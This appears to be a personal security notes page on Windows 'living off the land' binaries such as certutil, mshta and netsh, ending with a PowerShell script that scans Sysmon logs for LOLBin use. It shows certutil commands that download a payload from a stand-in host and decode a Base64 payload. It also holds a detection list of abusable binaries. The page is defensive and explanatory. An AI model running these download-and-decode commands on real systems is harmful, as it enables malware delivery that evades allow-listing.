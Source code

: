 ```yaml
---
title: Win - LOLBins
date: 2020-09-18 11:11:11 -0400
categories: [30System, Win]
tags: []
math: true
image:
---
```


[toc]

---

# LOLBins - Living Off The Land Binaries

All operating systems provide a rich toolbox to achieve multiple day-to-day tasks
- like maintenance of the certificates, installation of patches and applications, management of files, and many more.
- Those tools are installed by default and available to all users without specific access rights (most of the time).
- as they are signed by the operating system, they are considered safe by default.


The problem is the following: These tools are very powerful and provide interesting features for attackers. They are used for malicious purposes. Why reinvent the wheel if an attacker has access to a tool to achieve a specific task? Let's have a look at some tools available in every Microsoft Windows operating system. If you're using AppLocker, they are chances that you're allowing Microsoft signed binaries in your policy.


## exe


Let's review some example:

`certutil.exe`
- a tool used to work with certificates

```bash
# but it can also be used as a command-line browser to download some content from an URL:
C:\Temp> certutil.exe -urlcache -split -f "https://badsite.com/payload.exe" iambad.exe

# It can also be used to quickly decode a Base64-encoded payload:
C:\Temp> certutil -decode payload.txt payload.exe
```


I also mentioned several times in other diaries other looks like `msbuild.exe, csc.exe, or jsc.exe` that are provided by the `.NET Framework`. They are useful to compile code on the fly or to spawn other processes.


`ping.exe`
- can be used in alternative ways.

```bash
# By example to implement a pause in a script:
C:\Temp> ping -n 5 127.0.0.1
# Ping will send 5 ICMP request packets to the loopback interface, one per second. So, we introduce a pause of 5 seconds.
```



They are plenty of tools that could be potentially dangerous if invoked from an abnormal process (like word.exe or powershell.exe) or by a regular user.

A nice list has been compiled and made available online: [The LOLBAS project](https://lolbas-project.github.io/)

---


### mshta.exe

mshta.exe `Microsoft HTML Application Host`
- mshta.exe is a part of Microsoft Windows Operating System which is needed to `execute .HTA files`.
- This program is a non-essential system process, but should not be terminated unless suspected to be causing problems.
- mshta.exe 是存放在目录 C:\Windows\System32。
- 已知的 Windows XP 文件大小为 45,568 字节 (占总出现比率 66% )，29,184 字节。
- 应用程序没有可视窗口。 总结在技术上威胁的危险度是 8% , 但是也可以参考 用户意见。


---


### netsh.exe
- 是一个管理员可以用来在命令提示符处配置并监视基于 Windows 的计算机的工具。
- 使用 `Netsh.exe` 工具，可以将输入的上下文命令定向到适当的帮助器，然后帮助器将执行命令。
- 帮助器是个动态链接库 `(.dll)` 文件，它通过提供配置、监视和支持一种或多种服务、实用工具或协议，来扩展 `Netsh.exe` 工具的功能。




---


## solution

track the usage of those tools via Sysmon and Powershell.

example

```bash
# quick script to extract interesting Sysmon events:

$lolbins = @("Atbroker.exe","Bash.exe","Bitsadmin.exe","Certutil.exe","Cmdkey.exe","Cmstp.exe","Control.exe","Csc.exe","Dfsvc.exe","Diskshadow.exe","Dnscmd.exe","Esentutl.exe","Eventvwr.exe","Expand.exe","Extexport.exe","Extrac32.exe","Findstr.exe","Forfiles.exe","Ftp.exe","Gpscript.exe","Hh.exe","Ie4uinit.exe","Ieexec.exe","Infdefaultinstall.exe","Installutil.exe","Makecab.exe","Mavinject.exe","Microsoft.Workflow.Compiler.exe","Mmc.exe","Msbuild.exe","Msconfig.exe","Msdt.exe","Mshta.exe","Msiexec.exe","Odbcconf.exe","Pcalua.exe","Pcwrun.exe","Presentationhost.exe","Print.exe","Reg.exe","Regasm.exe","Regedit.exe","Register-cimprovider.exe","Regsvcs.exe","Regsvr32.exe","Replace.exe","Rpcping.exe","Rundll32.exe","Runonce.exe","Runscripthelper.exe","Sc.exe","Schtasks.exe","Scriptrunner.exe","SyncAppvPublishingServer.exe","Verclsid.exe","Wab.exe","Wmic.exe","Wscript.exe","Xwizard.exe","Appvlp.exe","Bginfo.exe","Cdb.exe","csi.exe","dnx.exe","Dxcap.exe","Mftrace.exe","Msdeploy.exe","msxsl.exe","rcsi.exe","Sqldumper.exe","Sqlps.exe","SQLToolsPS.exe","te.exe","Tracker.exe","vsjitdebugger.exe")

Foreach($lolbin in $lolbins)
{
    Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Sysmon/Operational";id=1;} | ?{ $_.message -match "`r`nImage: .*$lolbin`r`n" } | %{
        [regex]$regex = "(?i)`r`n(?<image>Image: .*$lolbin)`r`n(?<args>CommandLine: .*)`r`n"
        $match = $regex.Match($_.message)

        $Out = New-Object PSObject
        $Out | Add-Member Noteproperty 'Binary' $lolbin
        $Out | Add-Member Noteproperty 'Image' $match.Groups["image"].value
        $Out | Add-Member Noteproperty 'Args' $match.Groups["args"].value
        $Out | fl
    }
}
```


---



ref:
- [1] https://isc.sans.edu/forums/diary/Malware+Samples+Compiling+Their+Next+Stage+on+Premise/25278
- [2] https://lolbas-project.github.io
- [3] https://gist.github.com/leoloobeek/a3a4d9af3bf7fb37b6d82a7a17e7176d
- [4] https://raw.githubusercontent.com/ion-storm/sysmon-config/master/sysmonconfig-export.xml






.

